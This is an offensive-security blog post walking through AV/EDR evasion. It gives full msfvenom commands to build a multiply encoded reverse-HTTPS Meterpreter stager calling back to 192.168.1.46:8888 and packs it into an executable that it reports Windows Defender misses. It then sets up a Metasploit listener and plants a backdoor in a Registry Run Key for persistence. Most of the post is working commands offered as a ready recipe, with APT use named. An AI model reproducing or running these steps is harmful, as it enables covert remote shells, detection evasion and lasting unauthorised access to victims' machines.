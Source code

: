 ```yaml
---
title: Evade EDR with Shellcode Injection and gain persistence using Registry Run Keys
updated: 2021-02-08 16:09
---
```

Gaining a foothold in an internal network can be challenging, as AV and Defender makes this a little tougher. Modern Windows version have put in place some mitigation that prevent the shellcode to run properly. The issue is caused by the fact that the shellcode need RWX memory which are flagged when the shellcode is executed.

Shellcode injection might be very helpful for APT or Red Teamers during Pentesting, as they inject the malicious EXE and migrate the process into a trusted one by EDR. No suspicious behaviour at all!

## Encrypting the C2 communication

Transmitting data over a unencrypted Tunnel is not very recommended, it is always a great idea to replace the default SSL that Metasploit uses when generating stagers, so the communication between the stager and the C2 framework is encrypted. We can create a private RSA key and a Server Certificate for the C2 server-side.

```
openssl req -new -newkey rsa:4096 -days 365 -nodes -x509 -keyout rsaprivate.key -out servercertificate.crt
```

![generate_rsa_and_server_cert](https://miro.medium.com/max/700/1*BkkGQXUKAbLK4QyAdUg1ww.png)

Then merging this together in a .pem file and we have created a concatenated certificate.

```
cat rsaprivate.key servercertificate.crt > my.pem
```

## Generating an encoded shellcode

Generate a Metasploit stager using the certificate and making almost obfuscated using **shikata_ga_nai** for implementing a polymorphic XOR additive feedback encoder.

```
msfvenom -p windows/meterpreter/reverse_winhttps LHOST=192.168.1.46 LPORT=8888 --platform windows -a x86 HandlerSSLCert=./my.pem StagerVerifySSLCert=true -s 42 --smallest -e x86/shikata_ga_nai -i 9 -f raw| msfvenom --platform windows -a x86 -e x86/call4_dword_xor -i 6 -b "\x00\x0a\x0d" -f raw > shellcode.raw
```

![encoding_shellcode_with_9_iterations](https://miro.medium.com/max/700/1*r_Mn2ruiyf-OQ_q2kEOXuQ.png)

Once the shellcode is successfully generated, we will pack it into EXE.

## Packaging the shellcode

There is a open source tool called Shecodnject which nicely package our generated shellcode into EXE. Open the tool using python3 as root:

```
sudo python3 shecodnject.py
```

Load scc module, set the shellcode.raw file which we previously generated and run the module to read the shellcode inside the file.

```
scc
set source /set/location/to/shellcode.raw
run
```

![reading_shellcode](https://miro.medium.com/max/559/1*g6DM9bSHg5PT-6SYzHPgqQ.png)

Exit the module by typing back. Now that the shellcode is read by the tool, we will pack it into an EXE, so enter the following commands 1 by 1:

```
exe
set noconsole False
run
```

The process of packaging will take a while. Once finished the output will be saved inside /output inside shecodeject folder

The EXE is generated and ready to evade modern EDRs and Windows Defender. Let’s test if it gets detected by Windows Defender:

![bypassed_windows_defender](https://miro.medium.com/max/700/1*d02_hB-bgzFhfVKKj8Keug.png)

It is bypassed, no detection at all. Now it’s time to set a listener in Metasploit and hopefully get a shell:

```
msfconsole -q -x 'use exploit/multi/handler; set ExitOnSession false; set PAYLOAD windows/meterpreter/reverse_winhttps; set LHOST 192.168.1.46; set LPORT 8888; set HandlerSSLCert /home/nade/Desktop/my.pem; set StagerVerifySSLCert true; set SessionCommunicationTimeout 600; run -j -z'
```

For the sake of the statistics, this is the detection rate when scanning in various AVs:

![virus_total_result](https://miro.medium.com/max/700/1*ZvnQegj1lDzTCGrFIZ8mMg.png)

## Gaining persistence by backdooring Registry Run Keys

For persistence we will inject our backdoor into a Registry Run Key. Luckily Metasploit has a module for this port-exploitation. The module require the following configuration and will drop an executable at a writable location on the compromised system. In this case, we will upload our backdoor which is the same stager as the one we used for gaining (on our local machine I have called it **fin.exe**) on the target machine -> **C:\tmp\fin.exe**

First create **tmp** directory and upload **fin.exe**:

![c2_upload_backdoor](https://miro.medium.com/max/700/1*KZbAWjiVyMg-g7QLTCLmfA.png)

```
use post/windows/manage/persistence_exe
set REXEPATH /home/nade/Desktop/fin.exe
set REXENAME fin.exe
set SESSION 2
set STARTUP USER
set LOCALEXEPATH C:\\tmp
run
```

![metasploit_persistence_module](https://miro.medium.com/max/700/1*ehPmp6GPl5lmgHOINca9vw.png)

The next time that the user will login with the system a new Meterpreter session will open (a black cmd screen will pop-up where it executed the backdoor and than automatically closes).

